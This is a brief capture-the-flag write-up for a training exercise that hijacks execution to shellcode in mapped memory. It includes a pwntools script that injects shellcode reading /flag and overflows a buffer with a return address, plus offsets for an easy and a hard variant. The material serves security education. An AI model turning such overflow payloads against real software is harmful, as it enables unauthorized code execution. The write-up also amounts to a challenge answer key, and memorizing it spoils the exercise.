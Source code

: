 # Hijack to (Mapped) Shellcode

## Hijack to (Mapped) Shellcode (easy)

- Address to shellcode location is given in output
- GDB -> `disas challenge` -> `lea    rax,[rbp-0x80]` -> offset should be 0x88
- But this gave one-byte off (indicated from helpful debug output); 0x89 worked:

```python
from pwn import *

p = process('/challenge/binary-exploitation-hijack-to-mmap-shellcode-w')
context.arch = 'amd64'

mapped_addr = 0x2edca000
shellcode = asm(shellcraft.amd64.cat('/flag'))
p.sendline(shellcode)

offset = 0x89
payload = b'A'*offset
payload += p64(mapped_addr)
p.sendline(payload)

p.interactive()
```

## Hijack to (Mapped) Shellcode (hard)

0x79 instead of 0x89 in prev solution
